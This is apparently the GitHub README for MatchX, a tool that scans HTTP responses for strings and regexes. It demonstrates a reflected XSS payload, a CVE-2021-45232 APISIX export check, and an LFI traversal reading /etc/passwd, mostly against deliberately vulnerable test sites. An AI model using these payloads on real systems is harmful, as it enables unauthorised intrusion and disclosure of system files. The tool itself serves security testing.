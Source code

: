 <h1 align="center">MatchX</h1>
MatchX is specially designed for matching/finding `Strings` and `Regex patterns` in the HTTP responses with concurrency. This tool can help `Security researchers` to find multiple `CVE's` (that are already found) and `Vulnerabilities` like - Reflected XSS, SQLi, Sensitive data leakage, LFI etc.

## Installation

Run these commands in your terminal:
```
$ git clone https://github.com/Nefcore/MatchX.git
$ cd MatchX
$ sudo python3 setup.py install
$ matchx
```

## Arguments:

* `-u`: For Single URL.
* `-l`: For multiple URLs.
* `-mr`: For regex matching.
* `-mr`: For word/string matching.
* `--cookies`: If you want to use cookies.
* `--verbose`: For verbose output
* `--user-agent`: Specify user agent
* `-m`: Specify request method (GET/POST)
* `--data`: Specify POST data
* `--timeout`: Request timeout
* `--verify`: Verfiy SSL
* `-t`: Number of concurrent threads
* `-o`: For output file

## Finding Reflected XSS with MatchX

Let's find Reflected XSS on http://testphp.vulnweb.com:

Add `<script>alert(1)</script>` in words.txt.

```
$ echo "<script>alert(1)</script>" >> words.txt
```

Now run this command:

```
$ matchx -u "http://testphp.vulnweb.com/search.php?test=query" -mw words.txt --method POST --data "searchFor=<script>alert(1)</script>&goButton=go"
```
Here is the output:

```
 
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:10:40] [MATCHED] [<script>alert(1)</script>] http://testphp.vulnweb.com/search.php?test=query
```
output.json:

```
$ cat output.json
```

```json

{
    "URL": "http://testphp.vulnweb.com/search.php?test=query",
    "Status": 200,
    "Matched": true,
    "Word": "<script>alert(1)</script>"
}
```

## Finding CVE-2021-45232 with MatchX

Add `Consumers` in words.txt:

```
$ echo "Consumers" >> words.txt
```
Now run this command:

```
$ matchx -u "http://vuln/apisix/admin/migrate/export.txt" -mw words.txt -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:23:44] [MATCHED] [Consumers] http://vuln/apisix/admin/migrate/export.txt
```

Similarly you can find many CVE's. 

## Finding LFI with MatchX

Let's find LFI on DVWA with MatchX:

Add `root:.*:0:0` regex pattern in regex.txt.

```
$ echo "root:.*:0:0" >> regex.txt
```

Now run this command:

```
$ matchx -u "http://dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd" -mr regex.txt --cookies "PHPSESSID={value}; security=low" -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 08:42:35] [MATCHED] [root:.*:0:0] http://10.10.46.19/vulnerabilities/fi/?page=../../../../../../etc/passwd [1 time matched]
```
